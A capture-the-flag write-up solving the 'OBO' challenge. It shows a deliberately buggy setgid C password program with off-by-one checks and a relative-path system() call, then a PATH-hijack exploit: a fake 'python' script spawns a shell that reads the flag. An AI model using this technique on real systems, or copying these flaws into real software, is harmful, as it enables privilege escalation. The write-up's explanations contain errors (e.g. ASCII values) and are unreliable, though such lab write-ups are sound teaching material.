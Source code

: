 ### Solved by et0x

OBO is a 90 point miscellaneous challenge. 

> This password changing program was written by an inexperienced C programmer. Can you some find bugs and exploit them to get the flag?

The source code for the program is as follows:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>

const char *password_file_path = "/home/obo/password.txt";

int hex_table[256];

void generate_hex_table(void) {
  int i;
  for (i = 0; i <= 256; ++i) {
    hex_table[i] = -1;
  }

  for (i = 0; i <= 10; ++i) {
    hex_table['0' + i] = i;
  }

  for (i = 0; i <= 6; ++i) {
    hex_table['a' + i] = 10 + i;
  }

  for (i = 0; i <= 6; ++i) {
    hex_table['A' + i] = 10 + i;
  }

  // I don't know why, but I was getting errors, and this fixes it.
  hex_table[0] = 0;
}

int read_password(FILE *file, char *password, size_t n) {
  fgets(password, n, file);
  password[strcspn(password, "\n")] = '\0';
}

void change_password(char *password) {
  char cmd[128];
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  // C is too hard, so I did the password changing in Python.
  snprintf(cmd, sizeof(cmd), "python set_password.py \"%s\"", password);
  system(cmd);
}

int main(int argc, char **argv) {
  int i;
  FILE *password_file;
  int digits[16] = {0};
  char password[64];
  char new_password[64];
  char confirm_password[64];

  generate_hex_table();

  password_file = fopen(password_file_path, "r");
  if (password_file == NULL) {
    perror("fopen");
    return 1;
  }
  read_password(password_file, password, sizeof(password));
  fclose(password_file);

  printf("New password: ");
  fflush(stdout);
  read_password(stdin, new_password, sizeof(new_password));
  for (i = 0; i <= strlen(new_password); ++i) {
    int index = hex_table[(unsigned char) new_password[i]];
    if (index == -1) {
      printf("Invalid character: %c\n", new_password[i]);
      exit(1);
    }
    digits[index] = 1;
  }

  for (i = 0; i <= 16; ++i) {
    if (digits[i] == 0) {
      printf("Password is not complex enough: %d\n", i);
      return 1;
    }
  }

  printf("Confirm old password: ");
  fflush(stdout);
  read_password(stdin, confirm_password, sizeof(confirm_password));
  if (strcmp(confirm_password, password) != 0) {
    printf("Old password is incorrect.\n");
    return 1;
  }

  change_password(new_password);
  printf("Password changed!\n");
  return 0;
}
```

The hint to this one says that if you can find out why the programmer was getting errors (as indicated by the comments in the source code), you should be able to figure out how to beat this one.

So in a nutshell, the generate_hex_table() function fills the hex_table array with all -1's, then it goes back and fills the array with the value of i, starting at hex_table['0'+i].  (Ascii '0' = 60, so hex_table[60+0] = '0'... and so forth for each of the subsequent loops)

The error comes in because the function that checks that the password is complex enough will always come back with a -1 because hex_table[0] = -1, which causes execution to break.  Also, in order to meet complexity requirements, you have to enter '0123456789abcdefg' for your input at the first prompt.  Through the course of testing different values here, it was discovered that the program allows hex A-G, instead of A-F due to a one off programming error, and also that if you throw in hex \x01 when it asks for a password, it'll bypass the complexity check and jump straight to the password changing python script.  The only problem is that the python script doesn't do anything.

```bash
pico1139@shell:/home/obo$ cat set_password.py
#!/usr/bin/python
print 'Not yet implemented.'
```

As you can see though, the call to the python program uses a relative path:

```c
snprintf(cmd, sizeof(cmd), "python set_password.py \"%s\"", password);
```


We should be able to create our own script called "python", place it somewhere we have write access to, and change the environment variables so that it starts with our current directory.

```bash
pico1139@shell:/home/obo$ cd ~
pico1139@shell:~$ PATH=.:$PATH
pico1139@shell:~$ cat python
#!/bin/dash
/bin/dash
pico1139@shell:~$ /home/obo/obo
New password: abcdefg0123456789
Confirm old password: ^A
$ id
uid=11066(pico1139) gid=1013(obo) groups=1017(picogroup)
$ cd /home/obo
$ cat flag.txt
watch_your_bounds
```



